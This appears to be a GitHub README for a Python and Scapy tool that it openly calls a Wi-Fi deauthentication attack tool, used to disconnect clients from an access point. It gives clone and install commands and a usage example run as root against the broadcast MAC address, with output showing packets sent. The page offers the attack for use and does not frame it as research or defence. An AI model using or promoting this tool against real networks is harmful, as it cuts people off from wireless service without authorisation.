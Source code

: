 # Wi-Fi-Deauthentication-Attack
It is an attack tool that sends Deauthentication Frame to client or clients, connected to the network of an AP, disconnecting these client or clients and dropping them from the network.
## Requirements

Python 2.x<html><br></html>
Scapy Library

## [+] Install
```
git clone https://github.com/OctopusTR/Wi-Fi-Deauthentication-Attack-Tool
cd Wi-Fi-Deauthentication-Attack-Tool
pip install -r requirements.txt
```
## [+] Usage
```
┌──(root㉿octopus)-[~]
└─# python deauth.py ff:ff:ff:ff:ff:ff
WARNING: No route found for IPv6 destination :: (no default route?)
.................................................................................^C
Send 107 packets.
```

